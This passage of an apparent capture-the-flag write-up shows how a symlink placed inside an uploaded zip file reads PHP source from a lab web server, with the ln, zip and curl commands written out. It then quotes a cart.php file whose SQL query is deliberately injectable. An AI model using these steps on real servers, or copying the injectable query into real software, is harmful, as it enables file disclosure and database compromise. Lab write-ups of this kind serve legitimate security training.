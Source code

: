 ```php

              }
            }
            ?>
```

but we don't have control over inputs of this script, it seems a dead endline.

Let's continue to enumerate source codes and save them into `assets` local directory.

I created a script also called `lfi_exploiter.py` to help me to create `zip` files quicker.


```bash
ln -s ../../../../../../../../../../var/www/html/shop/functions.php file.pdf
zip --symlinks poc.zip file.pdf
curl http://10.10.11.229/uploads/239cdfaa2a04b380a22f74889e0c787e/file.pdf
```

Functions has username and password for db, but we cannot access and it seems pretty useless.
But from functions files we notice that db is `mysql`.

Let's take a look at `cart.php` file then:


```php
<?php
// If the user clicked the add to cart button on the product page we can check for the form data
if (isset($_POST['product_id'], $_POST['quantity'])) {
    // Set the post variables so we easily identify them, also make sure they are integer
    $product_id = $_POST['product_id'];
    $quantity = $_POST['quantity'];
    // Filtering user input for letters or special characters
    if(preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]|[^0-9]$/", $product_id, $match) || preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}[\]\\|;:'\",.<>\/?]/i", $quantity, $match)) {
        echo '';
    } else {
        // Construct the SQL statement with a vulnerable parameter
        $sql = "SELECT * FROM products WHERE id = '" . $_POST['product_id'] . "'"; // can we use union select to inject a product with some useful properties?
        // Execute the SQL statement without any sanitization or parameter binding
        $product = $pdo->query($sql)->fetch(PDO::FETCH_ASSOC);
        // Check if the product exists (array is not empty)
        if ($product && $quantity > 0) {
          
            if (isset($_SESSION['cart']) && is_array($_SESSION['cart'])) {
                if (array_key_exists($product_id, $_SESSION['cart'])) {
                    // Product exists in cart so just update the quanity
                    $_SESSION['cart'][$product_id] += $quantity;
                } else {
                    // Product is not in cart so add it
                    $_SESSION['cart'][$product_id] = $quantity;
                }
            } else {
                // There are no products in cart, this will add the first product to cart
                $_SESSION['cart'] = array($product_id => $quantity);
            }
        }
        // Prevent form resubmission...
        header('location: index.php?page=cart');
        exit;
    }
}

....
```
